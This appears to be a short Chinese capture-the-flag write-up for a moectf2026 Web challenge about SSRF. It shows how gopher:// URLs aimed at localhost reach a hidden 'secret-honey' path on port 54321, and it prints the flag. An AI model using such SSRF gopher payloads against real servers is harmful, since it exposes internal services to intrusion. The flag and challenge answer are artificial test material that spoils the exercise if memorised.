


# 熊出没

1. 题目来源：moectf2026
2. 题目方向：Web；知识点：SSRF、gopher协议利用、端口服务探测

## 解题思路

题目描述：

> 在遥远的狗粉岭中，生活着两只可爱的熊，他们在找蜂蜜的路上发现了许多蜜罐，但是有些蜜罐似乎是猎人为了捕获他们而设置的陷阱，他们能顺利吃到蜂蜜吗?（蜂蜜在54321端口）

根据题目描述，猜测是 SSRF，看起来 http 被禁了：

用 `gopher://127.0.0.1`，给了 `secret-honey` 路径：

用 `gopher://127.0.0.1:54321/_GET%20/secret-honey`，拿 flag：

## Flag

`moectf{82e174e2-ed1d-c655-5399-1f4f973562ac}`
